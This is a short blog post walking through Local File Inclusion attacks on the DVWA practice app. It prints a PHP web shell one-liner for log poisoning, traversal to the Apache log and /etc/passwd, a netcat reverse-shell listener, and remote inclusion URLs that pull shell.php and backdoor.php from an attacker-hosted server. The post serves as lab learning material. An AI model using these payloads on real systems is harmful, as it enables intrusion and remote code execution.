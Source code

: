 ```yaml
---
title: "Local File Inclusion"
date: 2024-12-23T16:06:04+01:00
draft: false
tags: ["Caido", "LFI", "Web"]
categories: ["Hacking"]
---
```

Local File Inclusion is an attack technique in which attackers trick a web application into either running or exposing files on a web server. LFI attacks can expose sensitive information, and in severe cases, they can lead to cross-site scripting (XSS) and remote code execution. LFI is listed as one of the OWASP Top 10 web application vulnerabilities.

File inclusions are a key to any server-side scripting language, and allow the content of files to be used as part of web application code. Here is an example of how LFI can enable attackers to extract sensitive information from a server. If the application uses code like this, which includes the name of a file in the URL:

https://www.brightsec.com/blog/local-file-inclusion-lfi/

Use Burpsuite or Caido you need to get this into the apache log file.

```<?php echo system($_GET['cmd']); ?>```

![](1.png)

![](2.png)

../../../../../../../../../var/log/apache2/access.log

![](3.png)

Low:

![](4.png)

![](5.png)

![](6.png)

![](7.png)

![](8.png)

Host a python server where your malicious file is located.

`sudo python -m http.server 1337`

![](9.png)


Listen for the host's shell. `nc -nvlp 1234`

![](10.png)

Pass a php reverse shell file to the host server via the url:

![](11.png)

`192.168.10.123/dvwa/vulnerabilities/fi/?page=http://192.168.10.121:1337/shell.php`

![](12.png)


Boom!

Medium:
code will remove the `../` in `....//....//` leaving: `../../`

![Screenshot](13.png)

![Screenshot](14.png)

![Screenshot](15.png)


`192.168.10.123/dvwa/vulnerabilities/fi/?page=http://http://192.168.10.121:1337/shell.php`

High:

`http://192.168.10.123/dvwa/vulnerabilities/fi/?page=file:///etc/passwd`

![Screenshot](16.png)

![Screenshot](17.png)

![Screenshot](18.png)

`http://192.168.10.123/dvwa/vulnerabilities/fi/?page=http://192.168.10.121:1337/backdoor.php&cmd=ls`

![Screenshot](19.png)



Resources:

https://www.offsec.com/metasploit-unleashed/file-inclusion-vulnerabilities/

https://blog.certcube.com/detailed-cheatsheet-lfi-rce-webshells/